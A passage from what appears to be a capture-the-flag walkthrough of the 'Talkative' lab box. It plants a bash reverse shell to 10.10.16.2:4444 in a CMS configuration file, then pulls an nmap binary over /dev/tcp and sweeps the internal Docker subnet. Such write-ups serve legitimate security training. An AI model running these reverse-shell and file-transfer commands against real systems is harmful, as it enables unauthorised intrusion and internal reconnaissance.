 Save changes, and clear the cache, go back to the main page. We now have shell:

![image.png]({{ site.baseurl }}/assets/talkative/image%2022.png)

Another way is to go to Configuration → All configuration Files, Choose bundles.php:

```bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.2/4444 0>&1'");
```

![image.png]({{ site.baseurl }}/assets/talkative/image%2023.png)

Save changes. Now refresh the main talkative.php page:

We now have shell. (This is the better way as the site don’t crash after).

Enumerating, we find:

```bash
cat /etc/hosts

127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
172.17.0.13     6e23b5a4c301
$ 

```

Let’s do a ping sweep, and see what addresses are up:

```bash
for i in $(seq 254); do ping 172.17.0.$i -c1 -W1 & done | grep from

```

ping is not installed on the target. Let’s try and get a static nmap on the target:

```bash
#on attack
nc -lnvp 1234 < nmap

#on target
bash -c "cat < /dev/tcp/10.10.16.9/1234 > /tmp/nmap"
```

After a while, we can close the connection off on our attack host. Verify file integrity with md5sum:

![image.png]({{ site.baseurl }}/assets/talkative/image%2024.png)

Now let’s scan:

```bash
chmod +x nmap

./nmap -sn 172.17.0.0/24 -v

Nmap scan report for 172.17.0.0 [host down]
Nmap scan report for 172.17.0.1
Host is up (0.00096s latency).
Nmap scan report for 172.17.0.2
Host is up (0.00062s latency).
Nmap scan report for 172.17.0.3
Host is up (0.00054s latency).
Nmap scan report for 172.17.0.4
Host is up (0.00045s latency).
Nmap scan report for 172.17.0.5
```